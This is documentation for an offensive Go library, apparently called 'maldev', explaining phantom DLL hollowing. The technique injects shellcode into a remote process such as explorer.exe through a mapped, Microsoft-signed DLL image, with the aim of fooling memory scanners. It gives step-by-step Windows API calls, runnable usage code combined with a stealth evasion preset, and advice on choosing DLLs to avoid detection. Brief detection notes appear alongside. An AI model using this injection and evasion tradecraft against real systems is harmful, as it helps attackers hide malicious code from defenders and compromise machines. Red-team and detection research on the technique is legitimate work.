

# Phantom DLL Hollowing

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **D3FEND:** D3-SICA -- System Image Change Analysis | **Detection:** Low-Medium

## For Beginners

Imagine a company issues official ID badges with photos and names. Each badge is linked to an entry in the security database showing the employee's identity and department. Now picture cloning a real badge -- it has the correct hologram, the correct barcode, and scans as a legitimate employee in the database. But the photo on the badge is yours. When the security guard checks the badge, it scans as valid. They would have to look very closely at the photo to notice anything wrong.

Phantom DLL hollowing creates a section from a real, Microsoft-signed DLL on disk using `SEC_IMAGE`, which tells Windows to treat it as a proper module image. The kernel validates the file signature and creates a section backed by the DLL file. This section is then mapped into the target process. Memory scanners see a file-backed image region pointing to a legitimate System32 DLL -- exactly what they expect. But the `.text` section of this mapped image has been overwritten with shellcode. Integrity checking tools would need to compare every byte against the on-disk copy to detect the modification.

This technique combines the file-backing trust of module stomping with the cross-process capability of section mapping, making it one of the stealthiest remote injection methods.

## How It Works



**Step-by-step:**

1. **Open DLL file** -- Open a legitimate System32 DLL (e.g., `amsi.dll`) with `GENERIC_READ` access. Also read a local copy for PE parsing.
2. **NtCreateSection(SEC_IMAGE)** -- Create a section with `SEC_IMAGE` type. The kernel treats this as a module image, validates it, and creates a section backed by the DLL file.
3. **OpenProcess** -- Get a handle to the target process with `VM_OPERATION | VM_WRITE | VM_READ`.
4. **NtMapViewOfSection** -- Map the section into the target process with `PAGE_EXECUTE_READWRITE`. The target now has what looks like a legitimately loaded DLL.
5. **Parse PE headers** -- Find the `.text` section's RVA and size from the local copy of the DLL.
6. **VirtualProtectEx(RW)** -- Make the remote `.text` section writable.
7. **WriteProcessMemory** -- Overwrite the `.text` bytes with shellcode.
8. **VirtualProtectEx(RX)** -- Restore execute-read permissions on `.text`.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Inject into PID 1234 using amsi.dll as the phantom module.
    if err := inject.PhantomDLLInject(1234, "amsi.dll", shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/process/enum"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Apply stealth evasion preset.
    evasion.ApplyAll(preset.Stealth(), nil)

    // 2. Find target process.
    procs, _ := enum.List()
    var targetPID int
    for _, p := range procs {
        if p.Name == "explorer.exe" {
            targetPID = int(p.PID)
            break
        }
    }

    // 3. Phantom DLL injection using a rarely-loaded DLL.
    //    The mapped region appears as a legitimate amsi.dll image.
    if err := inject.PhantomDLLInject(targetPID, "amsi.dll", shellcode); err != nil {
        log.Fatal(err)
    }

    // Note: You still need a separate execution trigger (thread, APC, etc.)
    // PhantomDLLInject only writes the shellcode into the mapped image.
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Very high -- memory region is `SEC_IMAGE` backed by a real System32 DLL. Memory scanners trust file-backed image regions. |
| File backing | The section is genuinely backed by the on-disk DLL file. `!vad` in WinDbg shows the file path. |
| Cross-process | Yes -- maps into any process you can open with VM_WRITE access. |
| Size constraint | Shellcode must fit in the target DLL's `.text` section. Choose a DLL with a large `.text`. |
| Limitations | Does not provide execution -- you need a separate trigger mechanism. Uses `WriteProcessMemory` (monitored). Advanced scanners can detect `.text` integrity violations by comparing mapped bytes against disk. |
| DLL selection | Use DLLs not commonly loaded by the target to avoid conflicts: `amsi.dll`, `dbghelp.dll`, `msftedit.dll`. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| SEC_IMAGE from real DLL | Yes | No | Module stomping (different) | No |
| Configurable DLL | Yes (any name) | N/A | spawnto_x64 | N/A |
| Remote process injection | Yes | N/A | Yes (different method) | N/A |
| PE header parsing | Manual (from file bytes) | N/A | Built-in | N/A |
| .text overwrite + protection | RW→write→RX | N/A | N/A | N/A |

## API Reference

```go
// PhantomDLLInject creates a section from a legitimate System32 DLL,
// maps it into the target process, and overwrites the .text section
// with shellcode. The memory scanner sees a file-backed image.
func PhantomDLLInject(pid int, dllName string, shellcode []byte) error
```
